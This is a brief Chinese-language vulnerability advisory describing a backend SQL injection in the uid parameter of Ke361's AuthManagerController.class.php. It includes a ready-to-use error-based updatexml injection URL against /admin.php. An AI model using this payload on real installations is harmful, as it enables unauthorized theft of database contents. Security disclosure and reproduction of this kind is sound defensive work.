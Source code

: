 # Ke361 AuthManagerController.class.php 后台SQL注入漏洞

# Ke361 AuthManagerController.class.php 后台SQL注入漏洞

## 漏洞描述

Ke361 AuthManagerController.class.php uid参数存在 SQL注入漏洞，通过漏洞可以获取数据库敏感信息

## 漏洞影响

```
Ke361
```

## 环境搭建

https://gitee.com/jcove/ke361

## 漏洞复现

存在漏洞的文件为 `Application/Admin/Controller/AuthManagerController.class.php`

![image-20220518153054883](/images/202205181530959.png)

```
/admin.php?s=/AuthManager/group/uid/1')%20AND%20updatexml(1,concat(0x7e,(select%20md5(1)),0x7e),1)--+
```

![image-20220518153112030](/images/202205181531098.png)

